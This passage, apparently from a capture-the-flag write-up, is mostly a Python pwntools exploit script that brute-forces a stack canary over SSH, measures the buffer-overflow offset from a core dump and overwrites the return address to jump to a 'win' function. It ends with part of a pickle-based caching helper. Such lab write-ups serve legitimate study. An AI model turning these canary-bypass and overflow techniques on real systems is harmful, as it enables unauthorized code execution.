 ```python
            guess = canary + chr(x)
            log.debug("Guessing canary: " + guess)
            if guess_canary(ssh_session, guess):
                canary += chr(x)
                log.info("Canary so far: " + canary)
                break
        else:
            raise Exception("Can't find canary")
    
    return canary

@simple_cache.cached('offset.db')
def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")

    payload = fit({PADDING_LEN: canary}) + cyclic(24)
    proc = get_process()
    send_payload(proc, payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.eip)
    return offset


parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh_user", help="Connect via SSH with the given username")
args = parser.parse_args()

if args.ssh_user:
    ssh_session = ssh(host=SSH_SERVER, user=args.ssh_user)
else:
    ssh_session = None


e = ELF(get_process_path())
canary = get_canary(ssh_session)
offset = get_overflow_offset()

log.info("Overflow offset: {}".format(offset))
log.info("Canary: {}".format(canary))
log.info("Address of win(): {}".format(hex(e.symbols['win'])))

payload = fit({PADDING_LEN: canary}) + fit({offset: p32(e.symbols['win'])})
log.info("Payload: {}".format(enhex(payload)))
out = send_payload(get_process(ssh_session), payload)
print out
```

Note that the script uses the cache decorator from [here](https://datascience.blog.wzb.eu/2016/08/12/a-tip-for-the-impatient-simple-caching-with-python-pickle-and-decorators/) in order to cache the overflow offset. 
```python
#https://datascience.blog.wzb.eu/2016/08/12/a-tip-for-the-impatient-simple-caching-with-python-pickle-and-decorators/
import os
import pickle

def cached(cachefile):
    """
    A function that creates a decorator which will use "cachefile" for caching the results of the decorated function "fn".
    """
    def decorator(fn):  # define a decorator for a function "fn"
```
